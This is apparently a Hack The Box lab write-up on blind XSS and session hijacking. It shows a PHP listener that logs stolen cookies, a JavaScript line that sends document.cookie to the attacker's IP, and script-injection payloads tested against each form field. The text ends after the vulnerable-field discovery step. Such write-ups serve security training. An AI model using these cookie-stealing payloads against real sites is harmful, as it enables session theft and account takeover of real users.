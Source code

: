 # HTB XSS and Session Hijacking Writeup

This repository documents identifying a vulnerable input field via XSS and performing session hijacking to steal the admin's cookie and retrieve the flag from `login.php`.

- **Attacker IP:** `10.10.14.179`
- **Target IP:** `10.129.31.89`
- **Date:** April 11, 2025

## Steps

### 1. Set Up Attacker Server
```bash
mkdir /tmp/tmpserver
cd /tmp/tmpserver
```
**index.php** 
```bash
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```
**script.js**
```bash
new Image().src='http://10.10.14.179/index.php?c='+document.cookie;
```
**cookies.txt**
```bash
sudo touch cookies.txt
sudo chmod 666 cookies.txt
```
**Run server**
```bash
sudo php -S 0.0.0.0:80
```
### 2. Identify Vulnerable Field
**Form**: http://10.129.31.89/hijacking/index.php

**Fields Tested:**
fullname: "><script src=http://10.10.14.179/fullname></script>

username: "><script src=http://10.10.14.179/username></script>

password: "><script src=http://10.10.14.179/password></script>

email: "><script src=http://10.10.14.179/email></script>

imgurl: "><script src=http://10.10.14.179/imgurl></script>

**Process:**
Injected each payload into one field at a time, others set to **test**.

Checked server logs for requests (e.g., GET /fullname).

Vulnerable field identified when a request appeared.

